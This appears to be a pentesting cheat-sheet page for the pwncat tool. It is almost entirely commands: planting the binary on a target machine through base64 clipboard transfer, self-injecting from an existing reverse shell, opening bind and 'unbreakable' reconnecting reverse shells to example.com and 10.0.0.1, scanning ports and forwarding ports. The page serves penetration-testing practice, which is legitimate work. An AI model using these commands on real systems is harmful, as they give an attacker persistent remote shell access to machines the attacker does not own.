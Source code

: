 # pwncat

{% embed url="https://github.com/cytopia/pwncat" %}

```
pip install pwncat
```

## Deploy to target

```
# Copy base64 data to clipboard from where you have internet access
curl https://raw.githubusercontent.com/cytopia/pwncat/master/bin/pwncat | base64 |  xclip -selection clipboard

# Paste it on the target machine
 xclip -selection clipboard -o | base64 -d > pwncat
chmod +x pwncat
```

## Inject to target

If you found a vulnerability on the target to start a very simple reverse shell, such as via bash, php, perl, python, nc or similar, you can instruct your local pwncat listener to use this connection to deploy itself on the target automatically and start an additional unbreakable reverse shell back to you.

```
pwncat -l 4444 --self-inject /bin/bash:10.0.0.1:4445
```

## Summon shells

```
# Bind shell (accepts new clients after disconnect)
pwncat -l -e '/bin/bash' 8080 -k

# Reverse shell (Ctrl+c proof: reconnects back to you)
pwncat -e '/bin/bash' example.com 4444 --reconn --recon-wait 1

# Reverse UDP shell (Ctrl+c proof: reconnects back to you)
pwncat -e '/bin/bash' example.com 4444 -u --ping-intvl 1
```

## Port scan

```
# [TCP] IPv4 + IPv6
pwncat -z 10.0.0.1 80,443,8080
pwncat -z 10.0.0.1 1-65535
pwncat -z 10.0.0.1 1+1023

# [UDP] IPv4 + IPv6
pwncat -z 10.0.0.1 80,443,8080 -u
pwncat -z 10.0.0.1 1-65535 -u
pwncat -z 10.0.0.1 1+1023 -u

# Use only IPv6 or IPv4
pwncat -z 10.0.0.1 1-65535 -4
pwncat -z 10.0.0.1 1-65535 -6 -u

# Add version detection
pwncat -z 10.0.0.1 1-65535 --banner
```

## &#x20;Port Forward

### Local port forward -L (listening proxy)

```
# Make remote MySQL server (remote port 3306) available on current machine
# on every interface on port 5000
pwncat -L 0.0.0.0:5000 everythingcli.org 3306

# Same, but convert traffic on your end to UDP
pwncat -L 0.0.0.0:5000 everythingcli.org 3306 -u
```

### Remote port forward -R (double client proxy)

```
# Connect to Remote MySQL server (remote port 3306) and then connect to another
# pwncat/netcat server on 10.0.0.1:4444 and bridge traffic
pwncat -R 10.0.0.1:4444 everythingcli.org 3306

# Same, but convert traffic on your end to UDP
pwncat -R 10.0.0.1:4444 everythingcli.org 3306 -u
```

## Interactive Shell

```
Unbreakable TCP reverse shell
pwncat --exec /bin/bash --nodns --reconn --reconn-wait 2 10.0.0.1 4444

Unbreakable UDP reverse shell
pwncat --exec /bin/bash --nodns --udp --ping-intvl 2 10.0.0.1 4444
```
